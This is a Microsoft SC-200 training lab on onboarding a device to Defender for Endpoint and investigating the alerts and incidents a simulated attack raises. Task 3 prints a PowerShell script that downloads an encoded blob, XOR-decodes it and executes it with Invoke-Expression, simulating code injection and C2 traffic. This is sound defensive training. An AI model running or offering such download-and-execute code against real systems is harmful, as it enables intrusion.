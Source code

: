 ```yaml
---
lab:
    title: 'Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint'
    module: 'Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint'
---
```


# Learning Path 2 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will verify successful device onboarding and investigate alerts and incidents created during that process.

>**Note:** An **[interactive lab simulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** is available that allows you to click through this lab at your own pace. You may find slight differences between the interactive simulation and the hosted lab, but the core concepts and ideas being demonstrated are the same.

### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (https://security.microsoft.com) and login as Admin for your tenant.

2. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears in the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

3. In the Microsoft Defender XDR portal left menu bar, expand the **System** section and select **Settings**, then from the *Settings* page select **Endpoints**.

4. Select **Onboarding** in the Device management section and make sure *"Windows 10 and 11"* is selected as operating system. The *"First device onboarded"* message now shows *Completed*.

5. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

6. In the windows search bar of the WIN1 virtual machine, type **CMD** and choose to **Run as Administrator** on the right pane for the Command Prompt app.

7. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

8. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    >**Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Alerts**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

2. In the **Alerts** pane, select the alert named *[TestAlert] Suspicious PowerShell commandline* to load its details.

3. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

    >**Note:** Under the alert *Details* tab you can scroll down to the *Incident details* section and select the *Execution incident on one endpoint* link to open the incident.

4. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**

5. Clear the *Alert severity* filter by selecting the **X** on the right of the filter.

6. A new incident called *[TestAlert] Suspicious PowerShell commandline* appears in the right pane. Select the incident name to load its details.

7. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

8. Under **Incident tags** type "Simulation" and select **Simulation (Create new)** to create a new tag.

9. Select the toggle **Assign to**  and add your user account (Me) as owner of the incident.

10. Under **Classification**, expand the drop-down menu.

11. Under **Informational, expected activity**, select **Security testing**.

12. Add any comments if desired and select **Save** to update the incident and finish.

13. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

### Task 3 Simulate an Attack

>**Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

2. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

3. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Then, copy and run each line of the script separately in PowerShell. Also, a PowerShell script (attacksim.ps1) was provided in the files downloaded at the beginning of the labs. To use the script, in **Windows PowerShell (Admin)** navigate to the *\Users\Admin\Desktop\Allfiles* folder and type *.\attacksim.ps1* and press **Enter** to run it.

4. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Incidents**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

2. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

    >**Note:** If you do not see the incident, make sure to clear the *Alert severity* filter by selecting the **X** on the right of the filter.

3. Under the *Attack story* tab, collapse the **Alerts** and **Incident details** panes to view the full **Incident graph**.

4. Mouse over and select the **Incident graph nodes** to review the *entities*.

5. Re expand the **Alerts** pane (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

6. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

7. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details and scroll down and select the **Open IP address page** button.

8. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain and information for the IP address.

## You have completed the lab
